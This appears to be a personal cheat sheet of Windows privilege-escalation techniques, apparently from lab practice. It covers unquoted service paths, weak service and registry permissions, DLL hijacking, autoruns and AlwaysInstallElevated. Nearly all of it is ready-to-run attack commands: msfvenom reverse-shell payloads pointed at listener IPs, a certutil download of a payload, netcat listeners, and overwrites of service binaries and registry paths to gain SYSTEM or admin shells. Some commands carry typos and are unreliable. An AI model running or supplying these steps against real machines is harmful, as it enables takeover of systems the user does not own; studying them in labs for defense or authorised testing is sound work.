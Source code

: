 Trusted site: mitre, tenable

COMMANDS:
-----------------------------------------------------------------------------------------------
**Unquoted Service Path**

wmic service get name,pathname,startmode|findstr /i  /v C:\Windows\\

wmic service get name,pathname,startmode  |findstr /i  /v  C:\Windows\\| findstr  /i /v """

sc qc unquotedsvc

C:\Users\user\Desktop\Tools\accesschk64.exe -ucqv user /user unquotedsvc

icacls "C:\Program Files\Unquoted Path Service\Common Files"

icacls "C:\Program Files\Unquoted Path Service"

copy payload.exe "C:\Program Files\Unquoted Path Service\common.exe"

nc -nlvp 4443

net start unquotedsvc

go back to listening terminal
-----------------------------------------------------------------------------------------------
**Weak Executable File**

C:\Users\user\Desktop\Tools\PsInfo.exe /accepteula -s

wmic service get name | findstr /i /v "C:\Windows\\""

C:\Users\user\Desktop\Tools\accesschk64.exe -wvu "C:\Program Files\Microvirt\MEmu\MemuService.exe"

C:\Users\user\Desktop\Tools\accesschk64.exe /accepteula -ucqv user MEmuSVC

net stop MEmuSVC

copy /y usp_payload.exe "C:\Program Files\Microvirt\MEmu\MemuService.exe"

nc -nlvp 4443

net start net stop MEmuSVC

go back to listening terminal
-----------------------------------------------------------------------------------------------
**Insecure Registry Permission**

Enumeration:Open a command prompt and run the WMICcommand below to list the services in the local machine:
wmic service get name | findstr /i /v "C:\Windows\\""

Let us look for interesting service like “registry” or “regsvc”. Ex. RemoteRegistry

To check what groups this user belongs. all the output is the group of this user
whoami /groups
This useris a member of BUILTIN\Usersand NT AUTHORITY\INTERACTIVEgroups.

Run the command below to check for our permission in the services keys.
C:\Users\user\Desktop\Tools\accesschk64.exe "INTERACTIVE" -kvuqsw hklm\System\CurrentControlSet\services
It seems that we have full access to the regsvcservice. 
RW HKLM\System\CurrentControlSet\services\regsvc
        KEY_ALL_ACCESS

Run SubInACL

C:\Users\user\Desktop\Tools\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" /display

Run Powershell

Confirm if INTERACTIVE really has full-access:
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

Check if we can restart the service:
C:\Users\user\Desktop\Tools\accesschk64.exe /accepteula -ucqv user regsvc

Query the service's registry path to our payload:
reg query hklm\System\CurrentControlSet\services\regsvc

Modify the image path:
reg add "HKLM\SYSTEM\CurrentControlSet\Services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\user\Downloads\usp_payload.exe" /f

sc qc regsvc

sc query regsvc

nc -nlvp 4443

sc start regsvc

go back to listening terminal
-----------------------------------------------------------------------------------------------

DLL Hijacking

wmic service get name,pathname,startmode |findstr /i  /v C:\Windows\\

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.20 lport=4444 -f dll -o hijackme.dll

sudo python3 -m http.service 8000 - let the target download hijackme.dll and put it on /Temp

sc stop dllsvc and sc start dllsvc

go back to listening terminal
-----------------------------------------------------------------------------------------------

Weak Service Permission (binPath)

C:\Users\user\Desktop\Tools\accesschk64.exe -uwcv user *
 - RW WindscribeService SERVICE_ALL_ACCESS

sc qc WindscribeServicequit
 - BINARY_PATH_NAME   : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"

Change the path to our payload:
sc config WindscribeService binpath= "C:\Users\user\Downloads\usp_payload.exe"

Verify the change:
sc qc WindscribeService

Setup listener: usp_payload uses port 4443 per our first config payload
nc -nlvp 4443

Restart service:
sc stop WindscribeService
sc query WindscribeService
sc start WindscribeService

go back to listening terminal
-----------------------------------------------------------------------------------------------
Autoruns

C:\Users\user\Desktop\Tools
 -Select the “Logon”tab and notice that the Image Path of “My Program” is pointing to “C:\Program Files\Autorun Program\program.exe"

Check the permissions of program.exe using PowerShell:
 - Get-ChildItem "C:\Program Files\Autorun Program\" -Recurse | Get-Acl | select Path,Owner,AccessToString,Group | Format-List
   - AccessToString : Everyone Allow  FullControl

Verify permission:
C:\Users\user\Desktop\Tools\accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
 - RW Everyone | FILE_ALL_ACCESS

nc -nlvp 4443

Copy the payload to "C:\Program Files\Autorun Program\program.exe"
 - copy usp_payload.exe "C:\Program Files\Autorun Program\program.exe"

Log off as a “user”account and log back inas “admin”account to simulate an admin accessing his account and wait for a connection with admin privilegein our listener.

In adminaccount, you will be prompted with a security warning, select “Run”.

go back to listening terminal

-------------------------------------------------------------------------------------------------------------------------------------------
AlwaysInstallElevated

REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=4443 -f msi -o aie_payload.msi

sudo python3 -m http.server 80 (urlcache is using port 80)

Let the target download the payload:
 - certutil -urlcache -f http://192.168.121.131/aie_payload.msi aie_payload.msi

Run the command below to execute the msi file:
 - msiexec  /quiet /qn  /i aie_payload.msi

go back to listening terminal


